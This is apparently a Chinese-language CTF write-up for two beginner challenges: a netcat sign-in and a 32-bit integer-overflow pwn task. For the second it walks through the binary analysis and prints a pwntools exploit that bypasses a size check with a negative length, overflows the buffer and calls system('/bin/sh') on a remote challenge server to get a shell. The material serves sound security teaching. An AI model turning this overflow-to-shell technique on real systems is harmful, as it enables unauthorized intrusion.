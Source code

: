 ### Does your nc work？

nc签到，直接连上去

通过一些简单的shell命令找到flag

考点：==netcat== ==shell命令==

![screen-capture](https://nssctf.wdf.ink/img/yxy/2ec59ad445c80e5d7d3028a28f7ede36.png)

<br/>

### Integer Overflow

顾名思义，整数溢出，先checksec一下，发现是32位程序，拖进IDA

![image-20221024215803927](https://nssctf.wdf.ink/img/yxy/image-20221024215803927.png)

存在一个 overflow() 函数，追踪进去

![](https://nssctf.wdf.ink/img/yxy/image-20221024224214883.png)

一路追踪到 choice1() 函数里，发现存在溢出点

![image-20221024224400900](https://nssctf.wdf.ink/img/yxy/image-20221024224400900.png)

考点：**整数溢出**

整数溢出的利用在于绕过大小限制，同时又可以导致缓冲区溢出

此处缓冲区[ebp-20h]，则填充0x20长度的垃圾数据，使缓冲区溢出

找到危险函数 pwn_me() ，发现存在system，但无bin/sh

![image-20221024233253238](https://nssctf.wdf.ink/img/yxy/image-20221024233253238.png)

追踪system的plt地址：0x08049100

![image-20221024233338670](https://nssctf.wdf.ink/img/yxy/image-20221024233338670.png)

无bin/sh，shift+F12查一下字符串，发现存在：0x0804A008

![image-20221024233430760](https://nssctf.wdf.ink/img/yxy/image-20221024233430760.png)

覆盖system参数的方法参考这篇文章：[pwn小白入门06--ret2libc](https://blog.csdn.net/weixin_45943522/article/details/120469196)

贴个exp：

```python
from pwn import *

sh = remote("1.14.71.254","xxxxx")
system_addr = 0x08049100	
bin_addr = 0x0804A008

sh.sendline(b"1")
sh.sendline(b"-1")
payload = b'a'*0x20 + p32(0) + p32(system_addr) + p32(0) +p32(bin_addr)
sh.sendline(payload)

sh.interactive()
```
